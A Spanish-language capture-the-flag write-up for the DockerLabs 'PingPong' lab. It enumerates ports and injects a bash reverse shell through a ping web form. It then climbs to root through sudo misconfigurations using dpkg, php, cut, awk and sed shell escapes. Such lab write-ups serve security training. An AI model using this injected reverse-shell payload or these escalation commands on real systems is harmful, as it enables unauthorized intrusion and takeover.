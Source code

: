 # PingPong
![pingpong](https://github.com/TBrux/DOCKERLABS/assets/168732212/839c278d-0cfe-47ea-af7c-cfe28d7b0f1e)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
443/tcp  open  https   syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64
```

Como tenemos abiertos los puertos 80, 443 y 5000 vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80,443,5000 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80,443,5000`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| tls-alpn: 
|_  http/1.1
5000/tcp open  upnp?    syn-ack ttl 64
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
```
Enumeros los tres puerto y vemos que en el puerto 5000, tenemos una página con la que podemos lanzar un ping a una ip.
![ping](https://github.com/TBrux/DOCKERLABS/assets/168732212/e8b49c6e-05d4-4ca7-86dc-56163e91f21a)

## Explotación.

Podemos utilizar que podemos lanzar un ping y concatenar otro comando para lanzarnos una reverse shell, poniendonos a la escucah en nuestra máquina atacante.
```bash
172.17.0.1 | bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 56412
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
freddy@5b164d9e97a0:~$ whoami
whoami
freddy
freddy@5b164d9e97a0:~$
```
## Escalada de privilegios.
Hemos obtenido acceso como **freddy**, ahora toca ir escalando privilegios hasta obtener privilegio como el usuario **root**.
```bash
freddy@5b164d9e97a0:~$ sudo -l
sudo -l
Matching Defaults entries for freddy on 5b164d9e97a0:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User freddy may run the following commands on 5b164d9e97a0:
    (bobby) NOPASSWD: /usr/bin/dpkg
```
Vemos que podemos utilizar el binario dpkg como el usaruio bobby, que si vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/), podemo sver que lo podemos lanzar utlizando el siguient comando.
```bash
sudo dpkg -l
!/bin/sh
```
```bash
sudo -u bobby /usr/bin/dpkg -l
```
```
freddy@b3e2108c7216:~$ sudo -u bobby /usr/bin/dpkg -l
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name                            Version                           Architecture Description
+++-===============================-=================================-============-================================================================================
ii  adduser                         3.137ubuntu1                      all          add and remove users and groups
                                                                                                                                 
!/bin/bash
bobby@b3e2108c7216:/home/freddy$ whoami                                                                                                                                                                                      bobby
````
Si seguimos comprobando los archivos vemos que podemos ejecutar como **gladys /usr/bin/php**.

```bash
bobby@b3e2108c7216:/home/freddy$ sudo -l                                                                                                                                                                                     
Matching Defaults entries for bobby on b3e2108c7216:                                                                                                                                                                             env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty                                                                                              User bobby may run the following commands on b3e2108c7216:                                                                                                                                                                        (gladys) NOPASSWD: /usr/bin/php                                                                                                                                                                             
bobby@b3e2108c7216:/home/freddy$ 
```
Volvermos a [GTFOBins](https://gtfobins.github.io/gtfobins/php/) y observamos que podemos ejecutar una shell desde **php**..
```bash
CMD="/bin/bash"
sudo -u gladys php -r "system('$CMD');"
```
Desde gladys vemos que podemos utilizar el comando **cut** para leer un archivo como el el usuario **chocolatito**. Buscamos archivos **txt** y encontramos la contraseña del usuario **chocolatito**.
```
gladys@b3e2108c7216:/opt$ ls
chocolatitocontraseña.txt
```
```bash
sudo -u chocolatito /usr/bin/cut -d "" -f1 "chocolatitocontraseña.txt"
```
```
gladys@b3e2108c7216:/opt$ sudo -u chocolatito /usr/bin/cut -d "" -f1 "chocolatitocontraseña.txt" 
chocolatitopassword
```
Una vez que tenemos el password, cambiamos al usuario chocolatito y comprobamos si podemos seguir escalando privilegios.
```
gladys@b3e2108c7216:/opt$ su chocolatito
Password: 
chocolatito@b3e2108c7216:/opt$ whoami
chocolatito
```
```bash
chocolatito@b3e2108c7216:/opt$ sudo -l
Matching Defaults entries for chocolatito on b3e2108c7216:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolatito may run the following commands on b3e2108c7216:
    (theboss) NOPASSWD: /usr/bin/awk
```
Pues utilizamos igual que las otras veces el comando para escalar privilegios, en este caso **awk**.
```bash
sudo -u theboss awk 'BEGIN {system("/bin/sh")}'
```
```
chocolatito@b3e2108c7216:/opt$ sudo -u theboss awk 'BEGIN {system("/bin/sh")}'
whoami
theboss
```
Ahora como el usuario **theboss** seguimos viendo si podemos escalar privilegios, y ya vemos que podemos escalar a **root** con **/urs/bin/sed**.
```
theboss@b3e2108c7216:/opt$ 
Matching Defaults entries for theboss on b3e2108c7216:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User theboss may run the following commands on b3e2108c7216:
    (root) NOPASSWD: /usr/bin/sed
```
```bash
sudo -u root /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
```
```
theboss@b3e2108c7216:/opt$ sudo -u root /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
whoami
root
```
